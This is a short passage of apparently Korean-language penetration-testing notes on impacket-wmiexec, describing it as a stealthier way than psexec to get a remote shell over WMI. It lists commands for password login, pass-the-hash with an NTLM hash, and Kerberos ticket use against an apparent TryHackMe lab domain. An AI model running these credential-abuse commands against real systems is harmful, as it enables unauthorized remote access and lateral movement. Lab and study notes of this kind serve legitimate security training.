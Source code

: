 

- **목적:** WMI(RPC)를 통해 원격 시스템에 셸을 획득합니다.
- **특징:** `psexec`보다 은밀하지만, 셸이 다소 불안정할 수 있습니다.

```bash
# 비밀번호 이용
rlwrap impacket-wmiexec <domain>/<user>:<password>@$target

# Pass-the-Hash
rlwrap impacket-wmiexec <domain>/<user>@$target -hashes :<ntlm_hash>

# getST 사용 이후
rlwrap impacket-wmiexec -k -no-pass THM.LOCAL/Administrator@labyrinth.thm.local
```
